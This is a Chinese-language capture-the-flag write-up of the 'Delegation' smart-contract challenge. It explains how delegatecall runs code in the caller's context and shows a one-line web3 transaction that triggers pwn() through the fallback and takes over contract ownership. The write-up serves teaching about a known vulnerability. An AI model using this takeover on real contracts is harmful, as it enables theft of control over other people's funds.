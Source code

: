 # 6.Delegation

## 题目描述

![img](../../../.vuepress/public/img/1645096948628-3f587ca7-be42-4caa-a2b8-c2f3b9c9edf8.png)

## 解题过程

题目源码

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

首先先理解 call函数 与 delegatecall函数 的区别

```javascript
call函数 外部调用时，上下文是外部合约
delegatecall函数 外部调用时，上下文是调用合约
```

![img](../../../.vuepress/public/img/1645191649528-10eadf0b-9033-4824-8262-25027eaaeaf8.png)

可以简单理解为 合约A通过 Delegatecall 调用合约B的方法时，相当于将该方法复制到 合约A 运行

![img](../../../.vuepress/public/img/1645191784663-2fc13a8c-61e2-4d16-a8d5-4af0272b3495.png)

```javascript
data 头4个 byte 是被调用方法的签名哈希，bytes4(keccak256("func"))
实际是向合约账户地址发送了 msg.data[0:4] == 函数签名哈希 的一笔交易
```

所以我们只需要像合约发送data, 来调用 pwn() 方法

```javascript
await contract.sendTransaction({data: web3.utils.sha3("pwn()").slice(0,10)});
```

![img](../../../.vuepress/public/img/1645309938555-60b8e256-8113-457e-888d-1e794c884d30.png)

根据交易hash 也可以看到调用方法细节

![img](../../../.vuepress/public/img/1645309966080-69137ec6-0fc2-4b07-ac39-8609bdbcc80d.png)

```javascript
使用delegatecall 是很危险的, 而且历史上已经多次被用于进行 attack vector. 使用它, 你对合约相当于在说 "看这里, -其他合约- 或是 -其它库-, 来对我的状态为所欲为吧". 代理对你合约的状态有完全的控制权. delegatecall 函数是一个很有用的功能, 但是也很危险, 所以使用的时候需要非常小心.
```